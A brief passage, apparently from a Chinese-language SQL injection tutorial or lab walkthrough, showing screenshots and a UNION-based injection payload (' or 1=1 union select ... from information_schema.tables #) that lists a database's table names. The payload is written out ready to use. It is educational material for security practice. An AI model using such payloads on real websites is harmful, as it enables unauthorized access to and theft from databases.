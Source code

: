 ![show-database](../imgs/wm_260.png)

我们还可以查看所有的表的名称：

```
' or 1=1 union select null, table_name from information_schema.tables #
```

![show-schema](../imgs/wm_261.png)

